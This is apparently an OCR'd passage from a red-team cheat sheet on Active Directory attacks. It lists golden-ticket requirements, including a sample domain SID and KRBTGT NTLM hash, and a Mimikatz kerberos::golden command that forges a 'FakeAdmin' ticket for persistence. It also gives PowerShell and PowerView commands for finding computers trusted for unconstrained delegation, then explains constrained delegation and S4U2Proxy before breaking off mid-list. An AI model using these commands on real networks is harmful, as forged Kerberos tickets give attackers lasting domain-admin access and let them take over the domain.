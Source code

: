 
                Creating Ticket with Mimikatz

    Golden Ticket Requirements

Domain Name: m0chanAD.local
Domain SID: S-1-5-21-1473643419-774954089-2222323452 (whoami /user)
KRBTGT NTLM Hash: d7e2b80507ea074ad59f152a1ba20458
ID: 500 (Administrator SID), 518 (Schema Admins), 519 (Enterprise Admin)


    Generate Ticket

mimikatz.exe 
kerberos::golden /domain:m0chanAD.local /sid:<domain-sid> /krbtgt:<krbtgt> /id:500 /user:FakeAdmin /ticket persistance4life.kirbi



                Unconstrained Delegation


    Unconstrained Delegation is a privilege that can be granted to User Accounts or Computer Accounts in a active directory environment that allows a resources to authenticate to another resource on BEHALF of a user. 



    Discovering Targets with Unconstrained Delegation Enabled

    PS > Import-Module -ActiveDirectory

    PS > Get-ADComputer -Filter {(TrustedForDelegation - eq $true) -AND (PrimaryGroupID -eq 515)} -Properties TrustedForDelegation,TrustedToAuthForDelegation,servicePrincipalName,Description

    #Or Simply
    PS > Get-ADComputer -Filter {(TrustedForDelegation - eq $true)} 


    #PowerView

    PS > Get-DomainComputer -Unconstrained 




                    Constrained Delegation

    Unconstrained Delegation has no limits in terms of what Kerberos services a Server can authenticate to on your behalf. i/e Once you have handed over your TGT if the server is trusted for Unconstrained Delegation then it can theoretically request a TGS ticket for any other Kerberos Service within the Realm which isn’t exactly ideal.

    Constrained Delegation limits what services a particular machine trusted for Delegation can actually access on behalf of an authenticated user


    S4U2Proxy

    The Server-for-User-to-Proxy is an extension that allows a service to use it’s Kerberos service ticket for a specific user to obtain a TGS ticket from the KDC to access a back-end-service on behalf of a user. The S4U2Proxy s being used 9/10 times that Constrained Delegation is in use.


    This extension works in the following order
